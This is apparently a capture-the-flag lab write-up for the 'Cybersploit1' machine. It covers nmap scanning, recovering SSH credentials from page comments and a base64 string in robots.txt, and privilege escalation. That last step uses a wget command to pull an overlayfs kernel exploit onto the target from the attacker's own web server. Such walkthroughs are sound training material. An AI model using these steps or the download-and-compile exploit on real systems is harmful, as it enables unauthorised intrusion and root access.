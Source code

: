 # Cybersploit1
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```
![](images/nmap.png)

There was not much interesting in the ports.        
Even with dirbuster only robots.txt was found. 

Checking the source-code of the main site we find a username in the comments.       
![](images/source-code.png)         
Its most likely the username for the SSH.       


Checking the robots.txt we find an encoded string.      
![](images/robots.png)          
It looked like a base64 encoded string.          
Use [cyber-chef](), its one of the nicer tools for encryption and decryption.       
Decoding it we find a string which I thought was a flag but it was not being accepted as a flag in the submissions.      

So I thought it maybe the password for the SSH login and tried to login, it worked!!            

After we login throught the SSH we can find the first flag in the local directory.      
I checked for user privileges, kernel version and the OS version using          
```
$ sudo -l
$ uname -a
$ cat /etc/issue
```
We were not allowed to run as sudo on this machine.         

The kernel and the OS version were old, so I googled for an exploit for the kernel version.         
And found [this](https://www.exploit-db.com/exploits/37292) on exploit-db, this exploit is called overlayfs.        

Download it onto your local machine and host a temporary python server from there to download onto the target machine.      

You can setup a local python server in the directory where you downloaded the exlploit using
```
$ python3 -m http.server port
```
Download the file onto the /tmp directory
```
wget http://your_ip_address:port/37292.c
```     
The instructions to compile and execute the file are given in the same file, follow them.        

![](images/root.png)        
And now we are root!!      
     
Navigate to root directory to find the root flag.       
